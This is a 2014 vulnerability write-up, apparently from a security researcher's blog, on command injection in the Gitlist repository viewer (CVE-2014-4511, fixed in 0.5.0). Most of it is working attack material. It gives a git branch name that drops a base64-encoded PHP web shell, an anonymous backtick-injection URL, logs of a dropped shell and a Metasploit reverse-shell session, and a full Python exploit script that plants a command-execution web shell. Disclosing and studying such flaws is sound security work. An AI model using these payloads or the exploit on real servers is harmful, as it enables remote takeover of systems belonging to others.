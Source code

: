```yaml
---
categories:
- rce
- gitlist
comments: false
date: "2014-06-29T15:00:00Z"
title: gitlist - commit to rce
---
```


[Gitlist](http://gitlist.org/) is a fantastic repository viewer for Git; it's essentially your own private Github without all the social networking and glitzy features of it.  I've got a private Gitlist that I run locally, as well as a professional instance for hosting internal projects.  Last year I noticed a bug listed on their Github page that looked a lot like an exploitable [hole](https://github.com/klaussilveira/gitlist/issues/395):

```
Oops! sh: 1: Syntax error: EOF in backquote substitution
```

I commented on its exploitability at the time, and though the hole appears to be closed, the issue still remains.  I returned to this during an install of Gitlist and decided to see if there were any other bugs in the application and, as it turns out, there are a few.  I discovered a handful of bugs during my short hunt that I'll document here, including one anonymous remote code execution vulnerability that's quite trivial to pop.  These bugs were reported to the developers and CVE-2014-4511 was assigned.  These issues were fixed in version 0.5.0.

The first bug is actually more of a vulnerability in a library Gitlist uses, Gitter (same developers).  Gitter allows developers to interact with Git repositories using Object-Oriented Programming (OOP).  During a quick once-over of the code, I noticed the library shelled out quite a few times, and one in particular stood out to me:

```
$hash = $this->getClient()->run($this, "log --pretty=\"%T\" --max-count=1 $branch");```
```

This can be found in `Repository.php` of the Gitter library, and is invoked from `TreeController.php` in Gitlist.  As you can imagine, there is no sanitization on the `$branch` variable.  This essentially means that anyone with commit access to the repository can create a malicious branch name (locally or remotely) and end up executing arbitrary commands on the server.

The tricky part comes with the branch name; git actually has a couple restrictions on what can and cannot be part of a branch name.  This is all defined and checked inside of [refs.c](https://github.com/git/git/blob/cb682f8cfe63ecd0da08a526f404d295e51e3ab1/refs.c), and the rules are simply defined as (starting at line 33):

1.  Cannot begin with .
2.  Cannot have a double dot (..)
3.  Cannot contain ASCII control characters (?, [, ], ~, ^, :, \\)
4.  End with /
5.  End with .lock
6.  Contain a backslash
7.  Cannot contain a space

With these restrictions in mind, we can begin crafting our payload.

My first thought was, because Gitlist is written in PHP, to drop a web shell.  To do so we must print our payload out to a file in a location accessible to the web root.  As it so happens, we have just the spot to do it.  According to INSTALL.md, the following is required:

```
cd /var/www/gitlist
mkdir cache
chmod 777 cache
```

This is perfect; we have a _reliable_ location with 777 permissions and it's accessible from the web root (/gitlist/cache/my_shell.php).  Second step is to come up with a payload that adheres to the Git branch rules while still giving us a shell.  What I came up with is as follows:

```
# git checkout -b "|echo\$IFS\"PD9zeXN0ZW0oJF9SRVFVRVNUWyd4J10pOz8+Cg==\"|base64\$IFS-d>/var/www/gitlist/cache/x"
```

In order to inject PHP, we need the <? and ?> headers, so we need to encode our PHP payload.  We use the $IFS environment variable (Internal Field Separator) to plug in our spaces and echo the base64'd shell into `base64` for decoding, then pipe that into our payload location.

And it works flawlessly.

Though you might say, "Hey if you have commit access it's game over", but I've seen several instances of this not being the case.  Commit access does not necessarily equate to shell access.

The second vulnerability I discovered was a trivial RCE, exploitable by anonymous users without any access.  I first noticed the bug while browsing the source code, and ran into this:

```
$blames = $repository->getBlame("$branch -- \"$file\"");
```

Knowing how often they shell out, and the complete lack of input sanitization, I attempted to pop this by trivially evading the double quotes and injecting grave accents:

```
http://localhost/gitlist/my_repo.git/blame/master/""`whoami`
```

And what do you know?

{{< figure src="/images/posts/2014/gitlist_rce1.jpg" >}}

Curiousity quickly overcame me, and I attempted another vector:

{{< figure src="/images/posts/2014/gitlist_rce2.jpg" >}}

Faster my fingers flew:

{{< figure src="/images/posts/2014/gitlist_rce3.jpg" >}}

It's terrifyingly clear that _everything_ is an RCE.  I developed a rough PoC to drop a web shell on the system.  A test run of this is below:

```
root@droot:~/exploits# python gitlist_rce.py http://192.168.1.67/gitlist/graymatter
[!] Using cache location /var/www/gitlist/cache
[!] Shell dropped; go hit http://192.168.1.67/gitlist/cache/x.php?cmd=ls
root@droot:~/exploits# curl http://192.168.1.67/gitlist/cache/x.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
root@droot:~/exploits# 
```

I've also developed a Metasploit module for this issue, which I'll be submitting a PR for soon.  A run of it:

```
msf exploit(gitlist_rce) > rexploit
[*] Reloading module...

[*] Started reverse handler on 192.168.1.6:4444 
[*] Injecting payload...
[*] Executing payload..
[*] Sending stage (39848 bytes) to 192.168.1.67
[*] Meterpreter session 9 opened (192.168.1.6:4444 -> 192.168.1.67:34241) at 2014-06-21 23:07:01 -0600

meterpreter > sysinfo
Computer    : bryan-VirtualBox
OS          : Linux bryan-VirtualBox 3.2.0-63-generic #95-Ubuntu SMP Thu May 15 23:06:36 UTC 2014 i686
Meterpreter : php/php
meterpreter > 
```

Source for the standalone Python exploit can be found below.

```
from commands import getoutput
import urllib
import sys

""" 
Exploit Title: Gitlist <= 0.4.0 anonymous RCE
Date: 06/20/2014
Author: drone (@dronesec)
Vendor Homepage: http://gitlist.org/
Software link: https://s3.amazonaws.com/gitlist/gitlist-0.4.0.tar.gz
Version: <= 0.4.0
Tested on: Debian 7
More information: 
cve: CVE-2014-4511
"""

if len(sys.argv) <= 1:
    print '%s: [url to git repo] {cache path}' % sys.argv[0]
    print '  Example: python %s http://localhost/gitlist/my_repo.git' % sys.argv[0]
    print '  Example: python %s http://localhost/gitlist/my_repo.git /var/www/git/cache' % sys.argv[0]
    sys.exit(1)

url = sys.argv[1]
url = url if url[-1] != '/' else url[:-1]

path = "/var/www/gitlist/cache"
if len(sys.argv) > 2:
    path = sys.argv[2]

print '[!] Using cache location %s' % path

# payload <?system($_GET['cmd']);?>
payload = "PD9zeXN0ZW0oJF9HRVRbJ2NtZCddKTs/Pgo="

# sploit; python requests does not like this URL, hence wget is used
mpath = '/blame/master/""`echo {0}|base64 -d > {1}/x.php`'.format(payload, path)
mpath = url+ urllib.quote(mpath)

out = getoutput("wget %s" % mpath)
if '500' in out:
    print '[!] Shell dropped; go hit %s/cache/x.php?cmd=ls' % url.rsplit('/', 1)[0]
else:
    print '[-] Failed to drop'
    print out
```
